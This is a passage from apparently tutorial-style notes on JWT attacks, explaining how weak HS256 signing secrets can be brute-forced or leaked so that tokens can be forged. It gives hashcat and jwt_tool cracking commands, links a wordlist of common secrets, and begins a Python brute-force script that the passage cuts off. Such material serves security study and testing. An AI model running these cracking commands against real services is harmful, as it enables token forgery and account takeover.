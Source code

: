 </aside>

## ⇒ **Brute-forcing secret keys**

Some signing algorithms, such as HS256 (HMAC + SHA-256), use an arbitrary, standalone string as the secret key. Just like a password, it's crucial that this secret can't be easily guessed or brute-forced by an attacker. Otherwise, they may be able to create JWTs with any header and payload values they like, and then use the key to re-sign the token with a valid signature.

When implementing JWT applications, **developers sometimes make mistakes like forgetting to change default or placeholder secrets**. They may even copy and paste code snippets they find online, then forget to change a hardcoded secret that's provided as an example. In this case, it can be trivial for an attacker to brute-force a server's secret using a [wordlist of well-known secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list).

Download: 

[jwt.secrets.list](/assets/images/JWT-attacks/jwt.secrets.list)

If an attacker is not able to brute-force the key, they might try leaking the secret key instead. If another vulnerability, like a directory traversal, external entity attack (XXE), or SSRF exists that allows the attacker to read the file where the key value is stored, the attacker can steal the key and sign arbitrary tokens of their choosing.

- Using hashcat
    
    ```bash
    hashcat -a 0 -m 16500 "$token" wordlist.txt
    ```
    
- Using https://github.com/ticarpi/jwt_tool
    
    ```bash
    python3 jwt_tool.py "$token" -C -d wordlist.txt
    ```
    
- simple python script
    
    ```python
    import hmac 
    import base64
    import hashlib
    from sys import argv
    
    if len(argv) != 3:
        print(f"Usage: python3 {argv[0]} <token> <wordlist>")
        exit(1)
    
    token = argv[1]
    
    header, payload, signature = token.split('.')
    
    def sign(token, key):
        return base64.urlsafe_b64encode(hmac.new(key.encode('utf8'), token.encode('utf8'), digestmod=hashlib.sha256).digest()).decode('utf-8').rstrip('=')
    
    def load_wordlist(file_name):
        with open(file_name, 'r') as f:
            return f.read().splitlines()
    